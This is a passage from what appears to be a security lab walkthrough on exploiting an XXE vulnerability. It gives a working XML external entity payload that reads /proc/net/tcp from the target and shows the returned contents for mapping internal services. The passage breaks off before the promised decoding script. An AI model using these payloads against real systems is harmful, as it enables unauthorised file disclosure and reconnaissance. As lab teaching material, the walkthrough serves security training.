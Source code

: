 

 Identify and exploit the XXE vulnerability.

Send the following XML snippet containing an XML entity:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY desc "Test Description"> ]>
<parent>
    <child>
        <name>Test Name</name>
        <description>&desc;</description>
    </child>
</parent>
```

Notice the response contains the description specified in the XML entity!

Not that we know there is an XXE vulnerability; let's leverage it to pull information on the internal services running on the target machine.

Use the following XML snippet to read the contents of the `/proc/net/tcp` file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ENTITY file SYSTEM "file:///proc/net/tcp">
]>
<data>&file;</data>
```

Notice we got back the file contents!

**Contents of the `/proc/net/tcp` file**:

```
sl local_address rem_address st tx_queue rx_queue tr tm->when retrnsmt uid timeout inode
0: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74435656 1 0000000000000000 100 0 0 10 0
1: 0100007F:22B8 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74418007 1 0000000000000000 100 0 0 10 0
2: 0B00007F:9599 00000000:0000 0A 00000000:00000000 00:00000000 00000000 65534 0 74430920 1 0000000000000000 100 0 0 10 0
3: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74434697 1 0000000000000000 100 0 0 10 0
4: 034CDCC0:1F40 024CDCC0:EB4C 06 00000000:00000000 03:0000176F 00000000 0 0 0 3 0000000000000000
5: 034CDCC0:1F40 024CDCC0:EB4E 01 00000000:00000000 00:00000000 00000000 0 0 74434828 1 0000000000000000 20 4 30 10 -1
```

**Note:** The information you received would differ slightly since the IP addresses of the machines change at every lab launch. Kindly make sure to fetch the contents of the above file before proceeding.

Decode the IP addresses and port numbers retrieved from the `/proc/net/tcp` file.

Use the following Python script to convert the IP addresses in hex to dotted-decimal notation:
